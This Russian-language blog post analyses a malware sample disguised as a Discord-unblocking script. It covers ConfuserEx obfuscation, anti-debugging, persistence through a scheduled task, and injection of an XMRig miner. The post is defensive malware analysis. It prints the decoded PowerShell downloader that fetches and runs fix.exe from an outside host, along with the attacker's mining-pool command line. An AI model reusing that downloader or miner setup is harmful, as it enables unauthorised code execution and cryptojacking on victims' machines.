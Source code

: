 ```yaml
---
layout: post
title: Discord Phantom Miner - Анализ вредоносного ПО, замаскированного под разблокировку Discord
lang: ru
categories: [Malware, Reverse-Engineering]
tags: [windows, malware, .NET, miner, reversing, confuserEx, confuser, obfuscation]
permalink: /posts/2024-10-11-discord-phantom-miner
---
```


![discord_malw.webp]({{ site.baseurl }}/images/discord_malware/discord_malw.webp)

## Введение

Недавно пользователь Telegram под ником [@belka_e](https://t.me/poxek_chat/118296) поделился скриншотом в чате [poxek](https://t.me/poxek_chat), который привлек внимание к подозрительному скрипту. Этот скрипт утверждал, что может обходить блокировки Discord в России. Однако при более тщательном изучении выяснилось, что программа скачивала и выполняла полезную нагрузку в памяти.

Скачивание происходило с адреса:

```
ayugram.temp.swtest.ru/install.ps1
```

![e8a560256efa7d9cf9a04af6ce5bf0f8.png]({{ site.baseurl }}/images/discord_malware/e8a560256efa7d9cf9a04af6ce5bf0f8.png)

Этот файл PowerShell содержал полезную нагрузку, закодированную в Base64. После декодирования был выявлен вредоносный код.

![752c84e53b7d8b8bd093f312b5668355.png]({{ site.baseurl }}/images/discord_malware/752c84e53b7d8b8bd093f312b5668355.png)

---

## Технический анализ

### Декодированная полезная нагрузка

```powershell
$username = $env:USERNAME
$url = "http://ayugram.temp.swtest.ru/fix"
$output = "C:\Users\$username\fix.exe"

Start-Sleep -Seconds 1
Invoke-WebRequest -Uri $url -OutFile $output
Start-Sleep -Seconds 5
Start-Process -FilePath $output
```

Этот скрипт скачивает и выполняет файл под названием `fix.exe` с удаленного сервера. После анализа было выяснено, что это бинарный файл `.NET`, обфусцированный с помощью ConfuserEx 1.0.0.

![ceda5ebbed4bfe3e98c6206e25d4d989.png]({{ site.baseurl }}/images/discord_malware/ceda5ebbed4bfe3e98c6206e25d4d989.png)

### Обфускация: ConfuserEx 1.0.0

Определив, что `fix.exe` является бинарным файлом .NET, я столкнулся с большими трудностями из-за обфускации, примененной **ConfuserEx 1.0.0**. Следуя инструкциям из [UnconfuserExTools Repository](https://github.com/landoncrabtree/UnconfuserExTools), мне удалось обратить обфускацию и начать анализировать поведение программы.

![76b25feae49567b98b2a08413c6ea854.png]({{ site.baseurl }}/images/discord_malware/76b25feae49567b98b2a08413c6ea854.png)

### Техники антиотладки

Первая часть бинарного файла проверяет, прикреплен ли отладчик или установлены ли переменные окружения, связанные с отладкой. В **dnSpy** вы можете отредактировать эти инструкции и заполнить их операциями `NOP`, чтобы обойти меры антиотладки.

![5689c290c0ede5d3fad23de5c8147818.png]({{ site.baseurl }}/images/discord_malware/5689c290c0ede5d3fad23de5c8147818.png)

### Механизм сохранения и закрепления

Вредоносное ПО сохраняет себя на диске в следующем месте:

```
C:\Users\<username>\AppData\Roaming\winupdater.exe
```

Затем оно создает запланированное задание с помощью `schtasks` с именем `MicrosoftEdgeUpdate`, что позволяет запускать вредоносное ПО с определенной регулярностью.

![1adc975fdee02118a4560166f7daa9f6.png]({{ site.baseurl }}/images/discord_malware/1adc975fdee02118a4560166f7daa9f6.png)

### Полезная нагрузка майнера XMRig

После закрепления вредоносная программа извлекает полезную нагрузку из своих ресурсов: криптомайнер **XMRig**.

![e8f6f37c3fb149686a848103aee0d78f.png]({{ site.baseurl }}/images/discord_malware/e8f6f37c3fb149686a848103aee0d78f.png)

#### Поведение программы:

- **Мониторинг процессов**: Прежде чем запустить процесс майнинга, вредоносная программа проверяет, запущены ли **Диспетчер задач** или **Process Hacker**. Если любой из этих инструментов обнаружен, программа завершает процесс майнинга, чтобы избежать обнаружения (на случай, если процесс майнинга уже был запущен).

![7243c8cd1b6bdd9ab049fea572434131.png]({{ site.baseurl }}/images/discord_malware/7243c8cd1b6bdd9ab049fea572434131.png)

- **Инъекция в ngentask.exe**: Программа запускает следующий процесс:
  ```
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ngentask.exe
  ```
  Затем она выделяет память в этом процессе и расшифровывает полезную нагрузку майнера **XMRig** в выделенное пространство. 
  
  ![40c794eec3b017f2c870a6336c7c465c.png]({{ site.baseurl }}/images/discord_malware/40c794eec3b017f2c870a6336c7c465c.png)

- **Запуск майнера**: Майнер запускается с следующими параметрами:
  ```
  --algo rx/0 --donate-level 0 --max-cpu-usage 25 -o mine.bmpool.org:6004 -u 7121405
  ```

Эта конфигурация позволяет программе майнить **Monero (XMR)** с использованием 25% мощности процессора, направляя полученную криптовалюту на кошелек злоумышленника.

![bad33f69ef42c6c9656150b9acf03819.png]({{ site.baseurl }}/images/discord_malware/bad33f69ef42c6c9656150b9acf03819.png)

---

## Заключение

Этот анализ показал, что вредоносное ПО не только закрепляется в системе через запланированные задания, но и использует несколько продвинутых методов для избежания обнаружения:

- **Антиотладочные** меры помогают предотвратить реверс-инжиниринг.
- Программа использует скрытые методы закрепления через задачу **MicrosoftEdgeUpdate**.
- Вредоносное ПО разворачивает криптомайнер **XMRig**, внедренный в процесс .NET, чтобы избежать обнаружения и работать в фоновом режиме.
